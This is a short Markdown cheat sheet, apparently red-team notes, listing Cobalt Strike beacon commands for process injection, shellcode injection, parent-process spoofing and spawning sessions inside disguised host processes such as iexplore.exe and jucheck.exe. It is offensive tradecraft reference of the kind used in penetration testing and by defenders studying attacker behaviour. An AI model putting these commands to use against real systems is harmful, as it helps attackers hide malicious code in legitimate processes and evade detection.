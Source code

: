 # 06 - Process Manipulation

Search Tag(s): #cobalt-strike #command-and-control

## 6.1 - Inject Process

* Inject to spawn beacon session

`beacon> inject <pid> <architecture> <listener>`

* Run powershell through another process

`beacon> psinject <pid> <arch> <cmdlet> [args]`

## 6.2 - Inject Shellcode

* Inject shellcode

`beacon> shinject <pid> /path/to/shellcode.bin`

* Spawn shellcode and tunnel

`beacon> spunnel <pid> /path/to/shellcode.bin`

## 6.3 - Spoof Process

* Spoof a parent process that is ready to spawn a new child process

`beacon> ppid <ppid>`

## 6.4 - Spawn Beacon Session

`beacon> spawnas <domain_name>\<username> <password>`

`beacon> spawnto <arch> <path> <args>`

`beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe`

`beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe`

`beacon> spawn <arch> <listener>`

---
## References

* [Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)